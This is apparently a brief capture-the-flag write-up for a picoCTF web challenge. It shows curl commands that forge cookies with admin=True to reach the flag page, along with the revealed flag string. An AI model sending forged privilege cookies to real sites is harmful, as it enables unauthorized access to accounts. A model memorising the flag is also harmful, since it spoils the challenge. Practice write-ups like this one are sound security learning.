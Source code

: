 #### Description

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796

![[Pasted image 20250325105221.png]]marcorojas@MarcoRojas:~$ curl -s https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: username=juan; password=juan; admin=true" |grep pico
marcorojas@MarcoRojas:~$ curl -s https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: username=juan; password=juan; admin=True" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
marcorojas@MarcoRojas:~$

